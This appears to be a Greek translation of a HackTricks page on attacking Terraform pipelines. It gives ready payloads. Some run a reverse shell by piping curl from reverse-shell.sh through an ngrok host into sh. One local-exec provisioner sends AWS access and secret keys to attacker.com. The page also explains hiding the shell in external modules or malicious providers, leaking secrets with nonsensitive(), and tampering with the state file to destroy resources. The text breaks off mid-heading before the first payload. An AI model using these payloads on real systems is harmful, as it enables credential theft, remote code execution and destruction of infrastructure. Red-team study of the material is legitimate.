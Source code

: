 # Ασφάλεια Terraform

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** με στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs** στα [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Βασικές Πληροφορίες

[Από τα έγγραφα:](https://developer.hashicorp.com/terraform/intro)

Το HashiCorp Terraform είναι ένα εργαλείο **υποδομής ως κώδικα** που σας επιτρέπει να ορίσετε τόσο **πόρους στο cloud όσο και on-prem** σε αρχεία ρυθμίσεων που είναι ευανάγνωστα από ανθρώπους και μπορείτε να τα εκδόσετε, να τα επαναχρησιμοποιήσετε και να τα μοιραστείτε. Στη συνέχεια, μπορείτε να χρησιμοποιήσετε ένα συνεπή ρεύμα εργασίας για την παροχή και διαχείριση όλης της υποδομής σας καθ' όλη τη διάρκεια του κύκλου ζωής της. Το Terraform μπορεί να διαχειριστεί συστατικά χαμηλού επιπέδου όπως υπολογιστές, αποθήκευση και δίκτυα, καθώς και συστατικά υψηλού επιπέδου όπως καταχωρήσεις DNS και χαρακτηριστικά SaaS.

### Π
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Χρήση προσαρμοσμένου παροχέα

Ένας επιτιθέμενος θα μπορούσε να στείλει έναν [προσαρμοσμένο παροχέα](https://learn.hashicorp.com/tutorials/terraform/provider-setup) στο [Μητρώο Terraform](https://registry.terraform.io/) και στη συνέχεια να τον προσθέσει στον κώδικα Terraform σε ένα κλαδί λειτουργίας ([παράδειγμα από εδώ](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Ο πάροχος κατεβάζεται στο `init` και θα εκτελέσει το κακόβουλο κώδικα όταν εκτελεστεί το `plan`.

Μπορείτε να βρείτε ένα παράδειγμα στο [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Χρησιμοποιώντας μια εξωτερική αναφορά

Και οι δύο επιλογές που αναφέρθηκαν είναι χρήσιμες αλλά όχι πολύ αόρατες (η δεύτερη είναι πιο αόρατη αλλά πιο περίπλοκη από την πρώτη). Μπορείτε να εκτελέσετε αυτήν την επίθεση ακόμα με έναν **πιο αόρατο τρόπο**, ακολουθώντας αυτές τις προτάσεις:

* Αντί να προσθέσετε το αντίστροφο κέλυφος (rev shell) απευθείας στο αρχείο terraform, μπορείτε να **φορτώσετε έναν εξωτερικό πόρο** που περιέχει το αντίστροφο κέλυφος:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Μπορείτε να βρείτε τον κώδικα του αντίστροφου κελύφους στο [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* Στο εξωτερικό πόρο, χρησιμοποιήστε το χαρακτηριστικό **ref** για να κρύψετε τον **κώδικα αντίστροφου κελύφους του Terraform σε ένα κλαδί** μέσα στο αποθετήριο, κάτι σαν: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Εφαρμογή Terraform

Η εντολή εφαρμογής του Terraform θα εκτελεστεί για να εφαρμοστούν όλες οι αλλαγές, μπορείτε επίσης να το καταχραστείτε για να λάβετε RCE εισάγοντας **ένα κακόβουλο αρχείο Terraform με** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Απλά χρειάζεται να βεβαιωθείτε ότι κάποιο φορτίο όπως τα παρακάτω τελειώνει στο αρχείο `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Ακολουθήστε τις **προτάσεις από την προηγούμενη τεχνική** για να εκτελέσετε αυτήν την επίθεση με έναν **πιο αθόρυβο τρόπο χρησιμοποιώντας εξωτερικές αναφορές**.

## Ροές Απορρήτων

Μπορείτε να έχετε **κρυφές τιμές που χρησιμοποιούνται από το terraform να διαρρεύσουν** εκτελώντας το `terraform apply` προσθέτοντας στο αρχείο terraform κάτι σαν:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Κατάχρηση Αρχείων Κατάστασης του Terraform

Στην περίπτωση που έχετε πρόσβαση εγγραφής σε αρχεία κατάστασης του terraform αλλά δεν μπορείτε να αλλάξετε τον κώδικα του terraform, [**αυτή η έρευνα**](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/) παρέχει μερικές ενδιαφέρουσες επιλογές για να εκμεταλλευτείτε το αρχείο:

### Διαγραφή Πόρων <a href="#deleting-resources" id="deleting-resources"></a>

Υπάρχουν 2 τρόποι για την καταστροφή πόρων:

1. **Εισαγωγή ενός πόρου με ένα τυχαίο όνομα στο αρχείο κατάστασης που δείχνει στον πραγματικό πόρο προς καταστροφή**

Επειδή το terraform θα δει ότι ο πόρος δεν πρέπει να υπάρχει, θα τον καταστρέψει (ακολουθώντας το πραγματικό αναγνωριστικό του πόρου). Παράδειγμα από την προηγούμενη σελίδα:
```json
{
"mode": "managed",
"type": "aws_instance",
"name": "example",
"provider": "provider[\"registry.terraform.io/hashicorp/aws\"]",
"instances": [
{
"attributes": {
"id": "i-1234567890abcdefg"
}
}
]
},
```
2. **Τροποποιήστε τον πόρο που θα διαγραφεί με έναν τρόπο ώστε να μην είναι δυνατή η ενημέρωσή του (έτσι θα διαγραφεί και θα αναδημιουργηθεί)**

Για ένα παράδειγμα με ένα EC2 instance, η τροποποίηση του τύπου της εικονικής μηχανής είναι αρκετή για να κάνει το terraform να το διαγράψει και να το αναδημιουργήσει.

### RCE

Είναι επίσης δυνατόν να [δημιουργήσετε έναν προσαρμοσμένο πάροχο](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider) και απλά να αντικαταστήσετε έναν από τους πάροχους στο αρχείο κατάστασης του terraform με τον κακόβουλο ή να προσθέσετε έναν κενό πόρο με τον κακόβουλο πάροχο. Παράδειγμα από την αρχική έρευνα:
```json
"resources": [
{
"mode": "managed",
"type": "scaffolding_example",
"name": "example",
"provider": "provider[\"registry.terraform.io/dagrz/terrarizer\"]",
"instances": [

]
},
```
## Εργαλεία Ελέγχου

* [**tfsec**](https://github.com/aquasecurity/tfsec): Το tfsec χρησιμοποιεί στατική ανάλυση του κώδικα terraform σας για τον εντοπισμό πιθανών λαθών ρύθμισης.
* [**terascan**](https://github.com/tenable/terrascan): Το Terrascan είναι ένας αναλυτής στατικού κώδικα για το Infrastructure as Code.

## Αναφορές

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)
* [https://blog.plerion.com/hacking-terraform-state-privilege-escalation/](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/)

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**Την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** με στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
